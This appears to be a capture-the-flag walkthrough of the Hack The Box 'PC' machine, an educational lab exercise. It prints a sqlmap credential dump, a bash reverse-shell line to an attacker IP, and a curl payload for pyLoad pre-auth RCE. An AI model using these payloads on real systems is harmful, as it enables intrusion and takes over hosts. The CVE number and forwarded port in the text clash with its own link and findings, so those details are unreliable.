

# PC machine on [hackthebox](https://app.hackthebox.com)

Written by: Mustafa Musallati.

---

### Enumeration:


nmap result:

```
sudo nmap -sC -sV -O -T4 <ip address>
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-12 07:20 EDT
Nmap scan report for pc.htb (10.10.11.214)
Host is up (0.16s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized
Running (JUST GUESSING): Linux 5.X|4.X|2.6.X (95%), Crestron 2-Series (86%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:crestron:2_series
Aggressive OS guesses: Linux 5.0 (95%), Linux 4.15 - 5.8 (90%), Linux 5.0 - 5.4 (90%), Linux 5.3 - 5.4 (89%), Linux 2.6.32 (89%), Linux 5.0 - 5.5 (88%), Crestron XPanel control system (86%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.67 seconds
```

Hmmmm....

So the nmap scan wasn't that useful since we can't do something with the ssh port only, and if we want to scan all ports with nmap it will take forever (though in a real life scenario i think it would be better), so lets run a faster tool that will just give us the open ports then we can get more detailed info from nmap

The tool is called rustscan and here is the link for it on GitHub.

The tool: [rustscan.](https://github.com/RustScan/RustScan)

lets run it and see what can we get:

```
rustscan -a <ip address>
```


We see we have a weird port open, let's get details from nmap real quick....

```
 sudo nmap -sC -sV -O -T4 <ip address> -p 50051
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-12 07:31 EDT
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:00:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 87.50% done; ETC: 07:31 (0:00:00 remaining)
Nmap scan report for pc.htb (10.10.11.214)
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=9/12%Time=65004BFF%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x0
SF:6\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Generic
SF:Lines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetRe
SF:quest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPO
SF:ptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSP
SF:Request,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\
SF:0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPC
SF:Check,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVe
SF:rsionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 5.X|4.X|2.6.X (97%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.32
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (90%), Linux 5.0 - 5.4 (90%), Linux 5.3 - 5.4 (89%), Linux 5.0 - 5.5 (88%), Linux 2.6.32 (87%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.00 seconds
```

Not alot of useful information and the service is unknown, so let's use google and see what is this port used for.


Upon further reading and searching about this service (which i really recommend you do and i'll include some good articles here in the "articles.md" file) we find that we can use a  tool called grpcurl to interact with servers that are running it, also that sometimes developer use a plain text function to transfer data in plain text so let's see if we can do that....

Tool: [grpcurl.](https://github.com/fullstorydev/grpcurl)

upon seeing the help menu and reading about the tool, we know that we can list the available service on a certain server (if it uses a certain feature) using:

```grpcurl -plaintext <ip address:port> list```


Upon doing this, we are able to view a response so it's confirmed that it's using plain text at this server.

So here we see the services and further more we can list the methods name for each service.

Also there is another useful tool when dealing with gRPC, called grpcui

Tool: [grpcui.](https://github.com/fullstorydev/grpcui/)

This tool let us deal with a graphical user interface, so it's easier to see the app we are dealing with.

```
grpcui -plaintetxt <ip address:port>
```

We will be redirected to a web page on the server running the service:


So we can login a user, register a user and get info about a certain user by the id.


So getting info about a user requires two things, first a token which can be given for logged in users and second and id.

So we register a user and get a token, so we can do a request to get info about an id.


Let's fire up burpsuite, so we can intercept this request....




### Exploitation


If we started throwing some stuff on the id parameter the app will react in a strange way, seems like its taking the quotes and not filtering  them, so let's copy this request to a .req file and give it to sqlmap...


```
sqlmap --risk 3 -r <request file> -p id --dump

risk: to make it use more heavy SQL queries.
-r: to specife the request file.
-p: to specify what parameter we want to test.
--dump: well, to dump the database info.
```

And easily enough we have some information!

HereIsYourPassWord1431
Let's ssh with the info we found:


And here we have a user flag!

Now time for root:

Appeareantly we can't run sudo at all, so let's download linpeas script which is (Linux privilege escalation script):


Then we can just make it executable using:

```
chmod +x linpeas.sh
```


And then let's run it.

After reading the output we find something intersting:


here we can see the ports that are running and active in the system, it's highlighted in red, so why don't we take a look at it.


using this command:

```
ss -natlp
-n: to give us the number of the port.
-a: to display all sockets.
-l: to specify listening ports.
-t: tcp ports.
-p: to display the proccesses of the socket.
```


Here we can see that there is a service running on port 9666, but in our enumeration phase we couldn't find anything related, so maybe it was blocked by a firewall, so it's time to see what is this service.

We will use a technique called "Port forwarding", i recommend you this article to read about it:
Link: [Article On Medium ](https://zakaria17.medium.com/linux-privilege-escalation-through-local-and-remote-port-forwarding-with-ssh-51c7187495dc)

So basically we will just forward the port that is running locally to be accessible from our local machine doing this:

```
ssh -L 8888:127.0.0.1:8000 sau@<ip address>

8888: to specify the port that the service will be ran on locally.

sau@<ip address>: the target machine.
```

After executing it and entering the password of the user "sau",
if we went to our browser and typed "127.0.0.1:8888" we will see the following:


Another logging service.....

let's search about pyLoad a little bit, and we will find that it has a CVE-2023-2097, and it's vulnerable to RCE (remote code execution).

The CVE on gitHub: [Link.](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)

basically we can use curl to issue a POST request to this page and inject some commands in it, so we can have it to spawn a shell for us!


First from our remote ssh shell we will make a bash reverse shell file called "rev" and put it in /tmp.

bash reverse shell command:

```
bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1
```

After we put the file there we will send a command using the exploit we found:

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/rev\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8888/flash/addcrypted2'


Note: that we send a bash command to execute the rev file.
```

BUT before sending we have to set up a listener locally:


Then lets execute the exploit command:


Now if we went to our listener we will find a root shell!!


And done machine....


Thanks for reading!

Good hunting!! :)


---

Written by: Mustafa Musallati.
[LinkedIn](https://www.linkedin.com/in/mustafa-musallati-95a159260/)
[instagram](https://www.instagram.com/accaard/)

